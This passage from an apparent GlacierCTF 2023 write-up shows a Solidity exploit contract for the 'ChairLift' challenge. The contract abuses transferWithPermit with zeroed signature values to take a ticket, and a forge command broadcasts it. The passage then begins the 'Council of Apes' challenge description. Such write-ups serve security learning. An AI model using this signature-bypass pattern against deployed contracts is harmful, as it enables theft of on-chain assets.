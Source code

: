 ```javascript
        new Attack().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}

contract Attack{
    Setup public setupContract = Setup(0xB09c4177c15f9C5d4F6a8f1Bfa06cF4b77907Ff7);
    ChairLift public chairlift = ChairLift(address(setupContract.TARGET()));
    Ticket public ticket = Ticket(address(chairlift.ticket()));

    function exploit() public{
        ticket.transferWithPermit(address(0), address(this), 1, block.timestamp+100, 0, 0, 0);
        chairlift.takeRide(1);
    }
}

//gctf{Y0u_d1d_1t!_Y0u_r34ch3d_th3_p34k!}
```

To solve the challenge run the following command

```bash
forge script script/ChairLiftAttack.s.sol:AttackScript --rpc-url <RPC-URL> --private-key <REDACTED> --broadcast
```

## The Concil of Apes [456pts]

```
Description : 

On top of the glacier you run into a bunch of monkeys. They are screaching at each other, throwin feces around and won't let you pass. You will need to somehow get rid of them to finish your mission.

author: J4X

nc chall.glacierctf.com 13380

```

Attached files 

1. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/Setup.sol" target=_blank>Setup.sol</a>
2. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/CouncilOfApes.sol" target=_blank>CouncilOfApes.sol</a>
3. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/IcyExchange.sol" target=_blank>IcyExchange.sol</a>
4. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/IcyPool.sol" target=_blank>IcyPool.sol</a>
5. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/TotallyNotCopiedToken.sol" target=_blank>TotallyNotCopiedToken.sol</a>
6. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/IERC20.sol" target=_blank>IERC20.sol</a>
7. <a href="https://github.com/TheMj0ln1r/GlacierCTF23Solves/blob/main/src/CouncilOfApes/ERC20.sol" target=_blank>ERC20.sol</a>

